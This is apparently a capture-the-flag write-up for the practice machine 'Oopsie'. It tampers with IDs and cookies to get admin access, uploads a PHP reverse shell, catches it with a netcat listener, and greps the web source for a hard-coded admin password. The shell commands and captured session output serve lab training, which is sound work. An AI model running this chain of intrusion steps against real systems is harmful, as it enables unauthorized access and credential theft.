 | Access ID    | Name         | Email                |
| :---------:  | :---------:  | :---------:          |
| 2233         | guest        | guest@megacorp.com   |

We check the link `http://10.129.242.253/cdn-cgi/login/admin.php?content=accounts&id=2` and wee see that the this user has an id of 2. We can try to manually enumerate the users by changing the ID in the URL to 1 and see if anything changes. It does. We are now presented with the admin role and user.

| Access ID    | Name         | Email                |
| :---------:  | :---------:  | :---------:          |
| 34322        | admin        | admin@megacorp.com   |

To escalate our privileges, we can manipulate the cookies. `Right-click` on the web page and select `Inspect`. Then, navigate to `Storage`," where the cookies are stored. We observe that the cookies contain `role=guest` and "`user=2233`.
We can try changing the values in our cookie do match the `admin` user to see if we can obtain admin permissions.

And we succeed. We gain access to the upload form. We can attempt to upload a **PHP reverse shell**. We modify the `$ip` and `$port` variables to match our own, changing `$port` to 4444.

To find the directory of the `Uploads` page, we use `gobuster` to search for hidden directories. Gobuster reveals the `/uploads` directory. Although we don't have permission to access the directory, we can try to access our uploaded file.

Next, we set up a `netcat` connection to listen on our chosen port `nc -lvnp 4444`.

Then, we request our shell through the web browser: `http://10.129.242.253/uploads/php-reverse_shell.php`. We are successfull.

```
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.15.196] from (UNKNOWN) [10.129.242.253] 42560
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:43:31 up 56 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We successfully obtain a reverse shell. However, to have a fully functional shell, we need to run `python3 -c 'import pty;pty.spawn("/bin/bash")'`.

As user www-data we can't achieve many things as the role has restricted access on the system. After some time we find some promising php files under `/var/www/html/cdn-cgi/login`<br>
```
www-data@oopsie:/var$ cd /var/www/html/cdn-cgi/login 
cd /var/www/html/cdn-cgi/login
```

We have two options for reviewing the source code:
* **Manual review** we can manually go through the source code of all the pages.
* **Using the grep tool** grep is a powerful tool for searching patterns in files. We can use grep with `cat * | grep -i passw`. This command reads all files `cat *` and searches for the pattern passw (case-insensitive with -i). It can match strings like *passwd* or *password*. By using grep, we can search for interesting strings in the source code efficiently.<br>
```
$ cat * | grep -i passw*
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```
